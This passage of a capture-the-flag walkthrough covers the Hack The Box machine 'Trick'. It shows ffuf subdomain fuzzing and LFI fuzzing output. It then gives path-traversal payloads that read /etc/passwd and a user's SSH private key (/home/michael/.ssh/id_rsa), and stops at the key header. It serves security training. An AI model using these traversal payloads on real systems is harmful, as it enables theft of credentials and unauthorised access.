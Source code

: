         /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://preprod-FUZZ.trick.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/wfuzz/general/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 0
________________________________________________

[Status: 200, Size: 9660, Words: 3007, Lines: 179]
| URL | http://preprod-marketing.trick.htb
    * FUZZ: marketing
```


Lets add ```preprod-marketing.trick.htb``` to ```/etc/hosts```

Navigating it takes us to marketing which also doesnt have much going on.

![image](https://user-images.githubusercontent.com/105310322/188242703-983bfebe-f7bb-4ef3-a32a-79b5fb39340a.png)

However we can check for any LFI vulnerabilites.

Note: I had to update/Install Seclists for this to work since Pwnbox does not come with an up to date seclists....

```
└──╼ [★]$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -v -fs 0
```
Alot gets outputted so we will just use this line here and place it at the end of the URL like so ```http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd```

This page reveals that we have a user michael! Lets see if we can get ssh keys.

![image](https://user-images.githubusercontent.com/105310322/188243801-a2869c4c-48cc-4546-af41-64db271c9884.png)

```....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//home/michael/.ssh/id_rsa```

Awesome we have a way in!

```console
-----BEGIN OPENSSH PRIVATE KEY----- 
```